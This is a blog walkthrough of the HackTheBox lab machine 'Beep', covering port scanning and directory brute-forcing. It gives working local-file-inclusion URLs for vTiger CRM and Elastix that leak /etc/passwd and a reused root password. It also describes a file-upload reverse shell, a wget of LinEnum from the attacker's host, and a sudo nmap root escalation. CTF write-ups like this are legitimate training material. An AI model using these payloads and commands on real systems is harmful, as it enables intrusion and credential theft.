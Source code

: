 ```yaml
---
title: "Walk-through of Beep from HackTheBox"
header: 
  teaser: /assets/images/2020-05-05-22-24-23.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - smbclient
  - Metasploit
  - Linux
---
```


## Machine Information

![Beep](/assets/images/2020-05-05-22-24-23.png)

Beep has a large list of running services, which can make it a bit challenging to find the
correct entry method. Skills Learned are web-based fuzzing, identifying known exploits and exploiting local file inclusion vulnerabilities.

<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu/) |
| Link To Machine | [HTB - 005 - Easy - Beep](https://www.hackthebox.eu/home/machines/profile/5) |
| Machine Release Date | 15th March 2017 |
| Date I Completed It | 16th July 2019 |
| Distribution used | Kali 2019.1 – [Release Info](https://www.kali.org/news/kali-linux-2019-1-release/) |

### Initial Recon

Check for open ports with Nmap:

```text
root@kali:~/htb/beep# nmap -sS -sC -sV -oA beep -p- -T4 10.10.10.7

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-21 22:39 BST
Nmap scan report for 10.10.10.7
Host is up (0.039s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: IMPLEMENTATION(Cyrus POP3 server v2) UIDL RESP-CODES APOP PIPELINING USER STLS TOP LOGIN-DELAY(0) AUTHRESP-CODE EXPIRE(NEVER)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            874/udp  status
|_  100024  1            877/tcp  status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: IMAP4rev1 Completed ACL URLAUTHA0001 OK UIDPLUS THREAD=REFERENCES IDLE ANNOTATEMORE IMAP4 LIST-SUBSCRIBED LISTEXT CHILDREN CATENATE ID THREAD=ORDEREDSUBJECT UNSELECT X-NETSCAPE MAILBOX-REFERRALS ATOMIC STARTTLS RENAME SORT BINARY RIGHTS=kxte MULTIAPPEND LITERAL+ CONDSTORE NAMESPACE QUOTA NO SORT=MODSEQ
443/tcp   open  ssl/https?
|_ssl-date: 2019-07-21T21:38:52+00:00; -3m49s from scanner time.
877/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
Host script results:
|_clock-skew: mean: -3m49s, deviation: 0s, median: -3m49s
```

Lots of ports open, start on normal path looking at port 80.

### Gaining Access

Opening website at http://10.10.10.7 on port 80 automatically redirects to port 443:
![Website](/assets/images/2020-05-11-22-37-57.png)

Login page for something called Elastix. Quick search for default credentials finds this [info](https://dariusfreamon.wordpress.com/2013/11/01/elastix-pbx-default-credentials/). Tried those plus other obvious ones but no luck, so try gobuster to find anything hidden:

```text
root@kali:~/htb/beep# gobuster dir -k -u https://10.10.10.7 -w /usr/share/wordlists/dirb/big.txt
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.7
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/07/21 22:53:47 Starting gobuster
===============================================================
/vtigercrm (Status: 301)
```

Having a look at the site: https://10.10.10.7/vtigercrm - We find CRM is version is 5.1.0

Have a look on searchsploit:

```text
root@kali:~/htb/beep# searchsploit vtiger
vTiger CRM 5.1.0 - Local File Inclusion  |  exploits/php/webapps/18770.txt
```

Exploit shows how to use LFI to navigate to sub-directories, use this in browser to get passwd file:

```text
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

Press ctrl-u to view source, shows as a proper list instead of jumble.

Copy and paste in to vi, remove all users with no login by doing:

```text
:g/nologin/d
```

Then remove non interesting logins, and cut from cursor to end of line with d$ for each remaining user to give simple list like this:

```text
root
cyrus
asterisk
fanis
```

No obvious way forward with this, so save for possible brute force later and look for another path.

Going back to at Elastix, I find it's prone to LFI exploit:

```text
root@kali:~/htb/beep# searchsploit elastix
-------------------------------------------------------------------------------- 
Exploit Title                                    |  Path
                                                 | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------- 
Elastix 2.2.0 - 'graph.php' Local File Inclusion | exploits/php/webapps/37637.pl
-------------------------------------------------------------------------------- 
```

Exploit shows how to expose the Elastix config, use this in browser:

```text
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```

This exposes the user **AMPortal**, with password **jEhdlekWmdjE**

The machine is vulnerable to password reuse, so it's possible to logon as root using this password:

```text
root@kali:~/htb/beep# ssh root@10.10.10.7
root@10.10.10.7's password:   <---- enter jEhdlekWmdjE found above
Last login: Tue Jul 16 11:45:47 2019
Welcome to Elastix 
----------------------------------------------------
To access your Elastix System, using a separate workstation (PC/MAC/Linux)
```

### User and Root Flags

Now have an ssh session on to the machine, check who we are logged on as:

```text
whoami
root
```

On as root user, so can get both flags:

```text
cat /home/fanis/user.txt
cat /root/root.txt
```

## Alternative Method

Brief notes of a different way to complete the box.

Log in to https://10.10.10.7/vtigercrm - user **admin**, password **jEhdlekWmdjE**

Navigate to Settings - Company Details

There is a file upload vulnerability where you can upload a jpg but it doesn't properly sanitise. So you can have shell.php.jpg, then use [Tamper Data](https://addons.mozilla.org/en-GB/firefox/addon/tamper-data-for-ff-quantum/) or [Burp](https://portswigger.net/burp) (already installed on Kali) to intercept request and remove double extension. Should then upload as a php file.

Have an nc -lvp 1234 waiting in a terminal and should get a reverse shell.

We are then logged in as user asterisk, and can get user flag from fanis folder.
When checking we see /tmp, is world writeable, so CD to there.

Start web server on Kali:

```text
root@kali:~/htb/beep# service apache2 start
```

Switch back to the box, pull LinEnum to it and run:

```text
wget 10.10.14.10/LinEnum.sh
bash LinEnum.sh
```

Shows what commands can use sudo without password (same as doing sudo -l). Has nmap in list.

Use nmap to escalate to root:

```text
sudo nmap --interactive 
!sh
whoami
root
```

I can now get the user and root flags as above now.
